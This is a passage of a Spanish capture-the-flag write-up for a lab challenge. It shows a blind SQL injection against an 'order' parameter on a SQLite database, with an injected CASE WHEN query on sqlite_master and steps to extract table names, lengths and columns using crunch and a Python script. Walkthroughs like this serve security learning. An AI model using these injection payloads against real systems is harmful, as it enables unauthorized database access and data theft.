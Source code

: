 	GET /?order=Case+When+(select+count(tbl_name)+from+sqlite_master+where+type='table')<2+THEN+title+ELSE+date+END --->order by title

![image](https://github.com/Esevka/CTF/assets/139042999/ff1c3c42-fbd8-4123-952b-10c7d3efadcd)


-Obtenemos el numero de caracteres que componen el nombre de cada tabla.

Explicacion de limit y offset INFO: https://www.tutorialesprogramacionya.com/postgresqlya/temarios/descripcion.php?cod=200&punto=42&inicio=

De igual manera utilizamos < o > para limitar rango y = para verificar tamano.

- Tabla1 ---> 5 caracteres.

  ![image](https://github.com/Esevka/CTF/assets/139042999/48a4e064-9e01-4187-9a97-5bb670f46c96)

- Tabla2 ---> 4 caracteres.

	![image](https://github.com/Esevka/CTF/assets/139042999/2a0400a2-ad51-4447-800e-eaaa71ba7929)

-Extraemos el nombre de las tablas de la BD.

Para extraer el nombre de las tablas trabajaremos con substr(string,start,length) en la parte de la consulta y para automatizar todo este proceso realizaremos un pequeno script en python.

Ejemplo de consulta de como sacaremos los caracteres que componen el nombre de la tabla.

![image](https://github.com/Esevka/CTF/assets/139042999/7389aa6a-c56c-4ad4-8723-f51252ee3286)

- Creamos un diccionario de caracteres para ello utilizamos

		┌──(root㉿kali)-[/home/kali/Desktop/ctf/prioritise]	/ letras minusculas
		└─# crunch 1 1  -t @ > diccionario.txt 
	                                                                                                                                                                              
		┌──(root㉿kali)-[/home/kali/Desktop/ctf/prioritise]	/ letras mayusculas
		└─# crunch 1 1  -t ,>> diccionario.txt 
		                                                                                                                                                                              
		┌──(root㉿kali)-[/home/kali/Desktop/ctf/prioritise]	/ numeros
		└─# crunch 1 1  -t % >> diccionario.txt
		                                                                                                                                                                              
		┌──(root㉿kali)-[/home/kali/Desktop/ctf/prioritise]	/simbolos
		└─# crunch 1 1  -t ^ >> diccionario.txt
  
- Script en python(extraer nombre de las tablas) ---> blind_sqlite.py ---> utilizamos la funcion 'table_name'
  
	Magic, obtenemos los nombres de las dos tablas.

	![image](https://github.com/Esevka/CTF/assets/139042999/8c35f5dd-d491-4f3e-9fc1-ecb32dcb4020)o

  	Ya sabemos a que tabla le tenemos que atacar, Tabla2 ---> flag
		                                                                                                                                                                              
-Obtenemos el numero de columnas que tiene la Tabla2 ---> flag

Determinamos que tiene solo 1 columna

![image](https://github.com/Esevka/CTF/assets/139042999/64b56778-897b-412c-88a6-cd179bf30c3f)
